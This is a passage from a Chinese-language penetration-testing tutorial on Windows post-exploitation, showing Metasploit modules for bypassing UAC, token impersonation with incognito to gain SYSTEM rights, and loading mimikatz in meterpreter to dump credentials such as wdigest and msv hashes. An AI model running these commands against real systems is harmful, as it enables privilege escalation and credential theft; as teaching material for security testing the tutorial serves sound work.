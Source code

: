 <Image alt="Drawing 17.png" src="https://s0.lgstatic.com/i/image6/M00/02/D2/Cgp9HWAeEayAQhAQAACp3hxvVs4058.png"/> 
  
图 18 UAC 导致的弹框

关于绕过 UAC 的原理，我们此处展开讨论，这里推荐几个 Metasploit 自带的利用模块来绕过 UAC：

```java
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
use windows/local/bypassuac_vbs
use windows/local/ask
```

你是不是发现 Metasploit 功能很强大？它什么功能都有，后面的利用，我们还会继续使用到它。

#### 3.令牌窃取

令牌是系统中的临时分配的认证凭证，等同于账号、密码，决定是否允许当前请求及其所属用户。也就是说，获得令牌后，用户可以在不提供密码的情况下访问网络和系统资源。如果被攻击者窃取到，就等同于窃取了他人账号。

在 Metasploit 中可使用 incognito 去罗列当前系统中的有效 Token 并进行复制伪造，如下图所示，假冒"NT AUTHORITY\\SYSTEM"令牌成功获取系统管理员权限。


<Image alt="Drawing 18.png" src="https://s0.lgstatic.com/i/image6/M00/02/D0/CioPOWAeEbWAfYtIAADYedlIyJY442.png"/> 
  
图 19 令牌窃取

### 横向移动渗透

为了扩大攻击成果，攻击者通常会利用已被攻破的系统作为跳板，去访问域内的其他主机，试图获得更多主机的控制权，下面介绍一些常用的横向移动渗透手段。

#### 1.抓取密码

在 Windows 上抓取密码的工具，最著名的当属 mimikatz，在 Metasploit 中也有集成，直接通过 load mimikatz 命令即可加载使用。

```java
meterpreter > load mimikatz
Loading extension mimikatz...[!] Loaded x86 Mimikatz on an x64 architecture.
[!] Loaded Mimikatz on a newer OS (Windows 7 (6.1 Build 7601, Service Pack 1).). Did you mean to 'load kiwi' instead?
Success.
meterpreter > help
...
Mimikatz Commands
=================
    Command           Description
    -------           -----------
    kerberos          Attempt to retrieve kerberos creds
    livessp           Attempt to retrieve livessp creds
    mimikatz_command  Run a custom command
    msv               Attempt to retrieve msv creds (hashes)
    ssp               Attempt to retrieve ssp creds
    tspkg             Attempt to retrieve tspkg creds
    wdigest           Attempt to retrieve wdigest creds
meterpreter > wdigest
```
